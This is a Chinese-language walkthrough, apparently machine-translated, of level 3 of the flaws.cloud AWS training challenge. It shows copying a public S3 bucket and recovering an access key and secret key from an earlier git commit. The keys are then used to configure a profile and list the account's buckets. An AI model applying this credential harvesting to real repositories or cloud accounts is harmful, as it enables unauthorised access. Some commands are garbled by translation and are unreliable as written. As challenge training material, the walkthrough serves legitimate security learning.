 這裡有2個有趣的位，即* authenticated_users.png *和* .git *目錄內容。

讓我們先瀏覽一下PNG：http://s3-us-west-2.amazonaws.com/level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png

好的，那沒什麼用，只是3級文檔的圖片...

現在讓我們戳一下* .git *目錄...

讓我們先製作本地副本：

`$ aws s3 cp s3：//level3-9afd3927f195e10225021a578e6f78df.flaws.cloud〜/ testtest --recursive`

`.git / COMMIT_EDITMSG`包含以下消息：“糟糕，意外添加了我不應該擁有的東西”-這很可能意味著他們進行了包含AWS密鑰的提交...

此外，如果我運行git log，我會得到：

      提交b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
      作者：0xdabbad00 <scott@summitroute.com>
      日期：週日九月17 09:10:43 2017 -0600

          糟糕，意外添加了一些我不應該擁有的內容

      提交f52ec03b227ea6094b04e43f475fb0126edb5a61
      作者：0xdabbad00 <scott@summitroute.com>
      日期：週日九月17 09:10:07 2017 -0600

          第一次提交

這意味著在提交`f52ec03b227ea6094b04e43f475fb0126edb5a61`中存在開發人員不想要的東西，並在提交`b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526`中將其刪除了。

讓我們仔細看看提交`f52ec03b227ea6094b04e43f475fb0126edb5a61`

git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61`

然後，讓我們看看彈出了哪些文件：

            〜/ testtest $ ls
            access_keys.txt authenticated_users.png hint1.html hint2.html hint3.html hint4.html index.html robots.txt

糟糕，有`access_keys.txt`，讓我們看一下

            〜/ testtest $ cat access_keys.txt
            access_key AKIAJ366LIPB4IJKT7SA
            secret_access_key OdNa7m + bqUvF3Bn / qgSnPE1kBpqcBTTjqwP83Jys

讓我們使用新發現的密鑰製作另一個AWS配置配置文件：

            〜/ testtest $ aws configure --profile缺陷級別3
            AWS訪問密鑰ID [無]：AKIAJ366LIPB4IJKT7SA
            AWS秘密訪問密鑰[無]：OdNa7m + bqUvF3Bn / qgSnPE1kBpqcBTTjqwP83Jys
            默認區域名稱[無]：us-west-2
            默認輸出格式[無]：

現在讓我們看看它們是否有效，以及是否有任何有趣的S3存儲桶：

            $ aws s3 ls --profile缺陷
            2017-02-19 03:41:52 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
            2017-05-30 00:34:53 config-bucket-975426262029
            2017-02-27 04:06:33缺陷日誌
            2017-02-19 03:40:54疵點.cloud
            2017-02-24 13:15:42 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
            2017-02-27 02:29:03 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
            2017-02-27 02:49:31 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
            2017-02-27 03:49:03 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
            2017-02-27 03:48:40 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
            2017-02-27 04:07:13 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
